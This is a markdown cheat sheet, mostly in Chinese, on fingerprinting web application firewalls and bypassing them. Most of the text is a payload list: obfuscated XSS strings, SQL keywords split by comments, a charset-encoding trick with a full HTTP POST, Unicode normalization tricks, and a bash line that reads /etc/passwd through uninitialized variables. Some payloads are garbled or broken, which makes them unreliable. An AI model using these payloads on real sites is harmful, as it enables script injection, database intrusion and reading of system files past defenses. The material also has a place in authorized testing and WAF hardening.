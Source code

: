# Web Application Firewall (WAF)
https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2 <br>
## 手動識別 WAF
- WAF 的名稱Server 標題（例如Server: cloudflare）
- 與 WAF 相關的其他 HTTP 回應標頭（例如CF-RAY: xxxxxxxxxxx）
- 看似由 WAF 設定的 Cookie（例如回應標頭Set-Cookie: __cfduid=xxxxx）
- 提交惡意請求時的唯一回應代碼。 （例如412）
- 可以透過FIN/RST向伺服器發送 TCP 封包

## 自動化識別 WAF
1. Nmap
  - Nmap 腳本引擎 (NSE) 包含用於偵測和指紋辨識防火牆的腳本
  - $ nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com
2. WafW00f
  - 命令列實用程序
  - $ wafw00f example.com
3. WhatWaf

# Bypassing WAFs
## Bypassing Regex 繞過正規表示式
- 更改有效載荷的大小寫 :
    - <sCrIpT>alert(XSS)</sCriPt> 
- 使用各種編碼、替換函數或字元 :
    - 在前面加上一個額外的「<」:  << script>alert(XSS)</script >
    - 刪除結束標籤 :  <script>alert(XSS) //
    - 使用反引號取代代號代替 : <script>alert`XSS`</script>
- 使用其他語法以及使用換行符或製表符。
    - 雙開尖括號 : java%0ascript:alert ( http.com 
    - 不常見的標籤 : <"STYLE>.classname{background-image:url( "javascript:alert(XSS)" );/STYLE">
    - 需要繞過: <"img/src=1/onerror=alert(0)">
    - 額外字符 : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa href=javascript:alert(1)>xss</a">"

## Obfuscation 混淆 
- Function( "ale" + "rt(1)" )(); #使用除了 alert、console.log 和 prompt 之外的不常見函數javascript
- /? id =1+un/**/ion+sel/**/ect+1,2,3-- #在 SQL 查詢中使用註解來分解語句
- new Function`alt\`6\``; #使用反引號而不是括號
- data:text/html; base64 4mPHxNv564Fx2Fv)5(Q/html; base2W.編碼 javascript %26%2397;lert(1) #使用 HTML 編碼
- <a src= "%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm ( XSSDY #$%&()*~+-_.,:;?@[/|\]^`=confirm()> # 在事件處理程序和等號之間使用任何非字母、數字或封裝字元（僅適用於 Gecko 引擎）

## Charset 字元集
- 修改Content-Type標頭以使用不同的字元集（例如ibm500）
- Python
$ python3  <br>
-- snip --  <br>
>>>  import urllib.parse <br>
>>>  s = '<script>alert("xss")</script>' <br>
 >>>  urllib.parse.quote_plus(s.encode( "IBM037" )) <br>
 'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n' <br>

- 將編碼後的字串傳送到請求正文中並上傳到伺服器 <br>
POST /comment/post HTTP/1.1 <br>
Host: chatapp <br>
Content-Type: application/x-www-form-urlencoded; charset=ibm500 <br>
Content-Length: 74 <br>
%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3 <br>

## Content Size 內容大小
- 如果有效負載超過一定大小，則不會檢查請求
- add gibberi e.g 8kb char
## Unicode Compatibility
- 將視覺上不同的字元分解為相同的基本抽象字元
- NFC：規範化形式規範組合
- NFD：規範化形式規範分解
- NFKC：規範化形式相容性組合
- NFKD：範式相容性分解
e.g ＜img src=p onerror='prompt(1)'> --> ＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥
## Uninitialized Variables 未初始化
- Bash 將未初始化的變數視為空字串
- echo $u
- cat$u /etc%u/passwd$u
